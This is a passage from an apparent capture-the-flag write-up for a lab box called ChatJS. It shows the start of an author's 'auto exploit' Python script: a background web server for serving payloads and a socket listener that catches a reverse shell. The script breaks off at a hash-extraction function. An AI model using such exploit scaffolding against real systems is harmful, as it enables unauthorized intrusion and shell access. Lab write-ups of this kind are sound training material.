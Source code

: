 We will use our read.py as base to our payload.

Here it is, auto exploit for this box.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2005:37:35.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit for ChatJS

import argparse
import requests
import sys
import string
import hashlib
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64
import os
import random

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to extract the hash for the username selected
def hashExtract(rhost,username,wordlist):
```